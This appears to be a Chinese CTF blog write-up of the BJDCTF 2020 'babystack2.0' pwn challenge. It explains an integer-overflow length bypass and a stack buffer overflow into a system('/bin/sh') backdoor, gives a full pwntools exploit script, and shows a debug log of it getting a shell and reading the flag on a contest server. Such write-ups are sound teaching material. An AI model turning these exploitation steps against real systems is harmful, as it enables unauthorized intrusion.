 # BJDCTF 2020 babystack2.0


# 思路

首先checksec：

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20230924105435155.png)

发现64位，只开启了NX。

反编译： 

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20230924105527316.png)

首先需要输入一个size_t，如果长度小于10才能进read进行泄露。

这里考虑整数溢出绕过判断：

> size_t a =  -1;那么(int) a = -1;但是(unsigned int) a = 4294967295;也就是2^32-1

发现后门函数：

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20230924110114168.png)

直接调用system('/bin/sh')，地址为400726。

buff的溢出距离是10h，直接写payload了

# exp

> exp中的0x40073A是后门函数的返回地址，这里是为了64位程序的栈平衡。

```python
from pwn import *

context(arch = 'amd64', os = 'linux', log_level = 'debug')
#r = process("./babystack") 
r = remote('node4.anna.nssctf.cn', 28925)

offset = 0x10
backdoor = 0x400726

r.sendlineafter('name:', '-1')

payload = b'a' * offset + b'a' * 8 + p64(0x40073A) + p64(backdoor)

r.sendafter('name?', payload)
r.interactive()
```

getshell

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ python exp.py
[+] Opening connection to node4.anna.nssctf.cn on port 28925: Done
/home/kali/Desktop/exp.py:10: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.sendlineafter('name:', '-1')
/home/kali/.local/lib/python3.11/site-packages/pwnlib/tubes/tube.py:841: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
[DEBUG] Received 0x22 bytes:
    b'*' * 0x22
[DEBUG] Received 0xc6 bytes:
    b'\n'
    b'*     Welcome to the BJDCTF!     *\n'
    b'* And Welcome to the bin world!  *\n'
    b"*  Let's try to pwn the world!   *\n"
    b'* Please told me u answer loudly!*\n'
    b'[+]Are u ready?\n'
    b'[+]Please input the length of your name:\n'
[DEBUG] Sent 0x3 bytes:
    b'-1\n'
/home/kali/.local/lib/python3.11/site-packages/pwnlib/tubes/tube.py:831: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
[DEBUG] Received 0x11 bytes:
    b"[+]What's u name?"
[DEBUG] Sent 0x28 bytes:
    00000000  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    00000010  61 61 61 61  61 61 61 61  3a 07 40 00  00 00 00 00  │aaaa│aaaa│:·@·│····│
    00000020  26 07 40 00  00 00 00 00                            │&·@·│····│
    00000028
[*] Switching to interactive mode
[DEBUG] Received 0x1 bytes:
    b'\n'

$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x6d bytes:
    b'bin\n'
    b'boot\n'
    b'dev\n'
    b'etc\n'
    b'flag\n'
    b'flag.txt\n'
    b'home\n'
    b'lib\n'
    b'lib32\n'
    b'lib64\n'
    b'media\n'
    b'mnt\n'
    b'opt\n'
    b'proc\n'
    b'pwn\n'
    b'root\n'
    b'run\n'
    b'sbin\n'
    b'srv\n'
    b'sys\n'
    b'tmp\n'
    b'usr\n'
    b'var\n'
bin
boot
dev
etc
flag
flag.txt
home
lib
lib32
lib64
media
mnt
opt
proc
pwn
root
run
sbin
srv
sys
tmp
usr
var
$ cat flag
[DEBUG] Sent 0x9 bytes:
    b'cat flag\n'
[DEBUG] Received 0x2d bytes:
    b'NSSCTF{2ff0f50c-8003-461f-9458-8358f6a736bf}\n'
NSSCTF{2ff0f50c-8003-461f-9458-8358f6a736bf}
$ 
[*] Interrupted
[*] Closed connection to node4.anna.nssctf.cn port 28925
```



---

> 作者: alextang  
> URL: https://alextang.top/articles/2023/09/2020babystack2-0/  


